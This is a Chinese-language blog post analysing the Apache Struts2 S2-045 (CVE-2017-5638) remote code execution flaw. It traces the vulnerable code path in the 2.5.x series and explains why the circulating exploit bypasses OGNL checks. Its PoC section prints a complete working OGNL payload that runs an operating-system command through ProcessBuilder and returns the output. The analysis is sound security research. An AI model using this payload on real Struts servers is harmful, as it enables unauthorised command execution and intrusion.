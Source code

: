 ```yaml
---
layout: post
title: "也谈S2-045"
date: 2017-03-21 02:04:34 +0800
author: tang3
comments: true
categories: 技术
---
```


## 0x00 序

2017年3月7日Struts的S2-045漏洞掀起了一波热潮，刚好休年假出去玩，没有赶上这波，回来赶紧学习各位师傅的文章知识点。网上的分析文章基本上保持了只传PoC，漏洞分析抄官网漏洞描述的炒作风格，能找到的仅有下面这三篇有价值的漏洞分析文章。

seebug的[《S2-045 原理初步分析（CVE-2017-5638）》](http://paper.seebug.org/241/)和[《S2-045 漏洞分析》](http://paper.seebug.org/247/)通过对比版本差异分析出漏洞问题的形成，内容上基本大同小异，后一篇比前一篇详细一点。第二篇主要还是在findText、translateVariables这些工具方法上纠结个不停，与其说是漏洞分析，倒不如说是Ognl执行流程分析。其实如果你跟多一些Strut2的Ognl相关漏洞，就会养成对LocalizedTextUtil下方法警觉的习惯，也会对它们执行Ognl表达式的流程烂熟于胸。

还有隐形人真忙的[《s2-045漏洞分析》](http://blog.csdn.net/u011721501/article/details/60768657)，这才是一篇真正的漏洞分析，一看就是老司机，入口点直指要害，执行逻辑描述的简单直接毫不拖沓。不过应该是作者只是匆匆一瞥，分析的流程只是2.3.x系列的逻辑，2.5.x系列的漏洞与他所描述的稍有不同。

这篇文章我会针对2.5.x系列的漏洞执行流程进行描述，当做隐形人真忙的补充篇。在这之后我会简单分析下这次流出的PoC为什么可以绕过Struts的检查，成功的执行表达式。

## 0x01 漏洞分析（2.5.x系列版本篇）

形成漏洞的主要原因是处理POST提交multipart/form-data类型的请求过于草率的将带有用户可控内容的错误信息交由Ognl表达式处理，从而造成Ognl表达式代码执行。我们直接来看request请求的解包代码：

```java
    public HttpServletRequest wrapRequest(HttpServletRequest request) throws IOException {
        // don't wrap more than once
        if (request instanceof StrutsRequestWrapper) {
            return request;
        }

        String content_type = request.getContentType();
        if (content_type != null && content_type.contains("multipart/form-data")) {
            MultiPartRequest mpr = getMultiPartRequest();
            LocaleProvider provider = getContainer().getInstance(LocaleProvider.class);
            request = new MultiPartRequestWrapper(mpr, request, getSaveDir(), provider, disableRequestAttributeValueStackLookup);
        } else {
            request = new StrutsRequestWrapper(request, disableRequestAttributeValueStackLookup);
        }

        return request;
    }

```

判断content_type字段中有没有multipart/form-data字样，有的话就进入了解析逻辑，后面的MultiPartRequestWrapper会通过JakartaMultiPartRequest的parse方法解析multi-part相关的数据（也包含content_type字段中的内容）。如果解析过程中出现问题（比如不符合协议规范）会触发catch流程，向MultiPartRequestWrapper对象插入异常信息。这个地方就是和隐形人真忙分析的2.3.x系列不同的地方，在2.3系列中这里就通过JakartaMultiPartRequest的buildErrorMessage方法直接调用了LocalizedTextUtil的findText方法执行了Ongl。而在2.5.x系列中，buildErrorMessage方法只是构建错误信息字符串，然后插到MultiPartRequestWrapper对象中，猜测应该是官方觉得文件上传部分的错误信息应该统一放到FileUploadInterceptor中处理，避免不同的解析插件错误信息返回不一致。以下为JakartaMultiPartRequest的parse方法代码：

```java
public void parse(HttpServletRequest request, String saveDir) throws IOException {
        try {
            setLocale(request);
            processUpload(request, saveDir);
        } catch (FileUploadException e) {
            LOG.warn("Request exceeded size limit!", e);
            LocalizedMessage errorMessage;
            if(e instanceof FileUploadBase.SizeLimitExceededException) {
                FileUploadBase.SizeLimitExceededException ex = (FileUploadBase.SizeLimitExceededException) e;
                errorMessage = buildErrorMessage(e, new Object[]{ex.getPermittedSize(), ex.getActualSize()});
            } else {
                errorMessage = buildErrorMessage(e, new Object[]{});
            }

            if (!errors.contains(errorMessage)) {
                errors.add(errorMessage);
            }
        } catch (Exception e) {
            LOG.warn("Unable to parse request", e);
            LocalizedMessage errorMessage = buildErrorMessage(e, new Object[]{});
            if (!errors.contains(errorMessage)) {
                errors.add(errorMessage);
            }
        }
    }
```

再向后走到FileUploadInterceptor中我们就可以发现如下代码：

```java
 MultiPartRequestWrapper multiWrapper = (MultiPartRequestWrapper) request;

        if (multiWrapper.hasErrors()) {
            for (LocalizedMessage error : multiWrapper.getErrors()) {
                if (validation != null) {
                    validation.addActionError(LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs()));
                }
            }
```

这里就是将MultiPartRequestWrapper对象request中的所有error信息遍历出来添加到validation变量中，而添加的过程中就用到了LocalizedTextUtil的findText方法，其中第4个参数会到达我们熟悉的TextParseUtil的translateVariables方法，即作为Ognl表达式执行。

## 0x02 PoC分析

各大网站关于S2-045都贴出了带有下面PoC的利用代码：

```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

这段利用代码我第一看到时感觉很不解，为什么这样就可以绕过Struts的Ognl表达式执行校验了？因为在Struts官方修复S2-037这个漏洞时已经限制了OgnlUtil类中的getvalue方法（translateVariables的底层也是getvalue），使其无法继续执行多语句的Ognl表达式了。

![compare](/assets/images/2017-03/compare.png)

我们对比来看getvalue执行ognl的必经之路compileAndExecute方法：


```java
private <T> Object compileAndExecute(String expression, Map<String, Object> context, OgnlTask<T> task) throws OgnlException {
        Object tree;
        if (enableExpressionCache) {
            tree = expressions.get(expression);
            if (tree == null) {
                tree = Ognl.parseExpression(expression);
                checkEnableEvalExpression(tree, context);
            }
        } else {
            tree = Ognl.parseExpression(expression);
            checkEnableEvalExpression(tree, context);
        }

```

首先通过expressions.get(expression)来尝试解析表达式，如果表达式只是单跳语句，那么tree变量就必然非空，否则tree变量为空需要经过checkEnableEvalExpression方法检验。通过上面compare的图，可以看出这个流程多了一个isSequence方法，这个方法判断OnglContext中的语句是否为队列（多条语句），如果是那么返回false。也就是说，如果经过OgnlUtil类getvalue方法的ognl表达式是多语句形式的，那么一定会拒绝执行。

而网上流传的这段PoC对防护有着惊艳的表现，它通过使用Ognl提供的子表达式的语法，讲多条语句合成了一条语句，完美bypass掉了if(tree == null)中的校验。

![subexpression](/assets/images/2017-03/subexpression.png)

## 0x03 总结

关于FileUploadInterceptor我也多次有跟踪，想从其中找到可以利用点，不过却忽略了JakartaMultiPartRequest中的调试，与一个历史级的漏洞失之交臂，惋惜至极。漏洞的挖掘就是需要一个死角也不放过的较真，否则也就像我这样空叹曾经路过。。。

安恒的小哥能发现这个漏洞也是必然，毕竟他对于Struts的每个更新版本和细节都会认真研究（就像S2-032这个原先没有漏洞，后来版本更新导致的漏洞），我这样的懒人在他面前实在是汗颜。哦，对了，还有他的这个PoC实现思路实在是让我叹为观止，我是服了~~

## 0x04 参考文章

【1】[s2-045漏洞分析（隐形人真忙）](http://blog.csdn.net/u011721501/article/details/60768657)

【2】[S2-045 漏洞分析](http://paper.seebug.org/247/)

【3】[《S2-045 原理初步分析（CVE-2017-5638）》](http://paper.seebug.org/241/)

【4】[OGNL语法表](https://commons.apache.org/proper/commons-ognl/language-guide.html)

【4】[Struts2.3.28与2.3.28.1的代码对比](https://github.com/apache/struts/commit/c48007cccc4a8007005eec782902c1f38e683438#diff-72e88cf125a077f6fb215a2e4cf3eb40L295)